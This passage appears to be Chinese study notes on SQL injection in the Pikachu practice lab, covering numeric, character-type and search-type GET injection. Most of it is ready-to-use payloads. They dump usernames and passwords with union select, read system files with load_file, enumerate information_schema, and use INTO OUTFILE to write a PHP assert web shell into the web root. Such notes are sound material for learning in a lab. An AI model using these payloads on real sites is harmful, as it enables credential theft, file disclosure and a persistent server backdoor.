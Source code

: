 `id=-1 union select 1,group_concat(username,0x7e,password) from users#`

`id=1 union select load_file('C:/Windows/win.ini'),1 from users#`读文件

`id=1 union select 1,'<?php assert($_POST[1]);?>' into outfile 'C:/phpstudy_pro/WWW/pikachu/vul/sqli/1.php'#`写马



## 字符型注入——get

**字符型注入相关的sql语句大概是个 `select xxcolumns from xxtable where param ='input'`的形式。**

判断闭合

类似于数字型注入——可以直接从url上输入参数——输入字符

`%23==#`

`?name=xxx' order by 2%23`

`?name=xxx' union select 1,2%23`

`?name=xxx' union select database(),2%23`

`?name=xxx' union select 1,group_concat(table_name) from information_schema.tables where table_schema="pikachu"%23`

`?name=xxx' union select 1,group_concat(column_name) from information_schema.columns where table_schema="pikachu" and table_name='users'%23`

`?name=xxx' union select username,password from users%23`

`?name=xxx' union select 1,load_file('C:/Windows/win.ini')%23`  读文件

`?name=x' unxxion select 1,'<?php assert($_POST[2]); ?>' into outfile 'C:/phpstudy_pro/WWW/pikachu/vul/sqli/2.php'%23  `  写马



## 搜索型注入——字符型注入get

**搜索型注入相关的sql语句大概是个 `select xxcolumns from xxtable where param like '%input%'`的形式。本质还是字符型注入，只是闭合不一样。**

找闭合：

`1'\`

——`%'`闭合

`?name=xxx%' order by 3%23`

`?name=xxx%' union select 1,2,3%23`

`?name=xxx%' union select database(),2,3%23`

`?name=xxx%' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema="pikachu"%23`

`?name=xxx%' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema="pikachu" and table_name='users'%23`
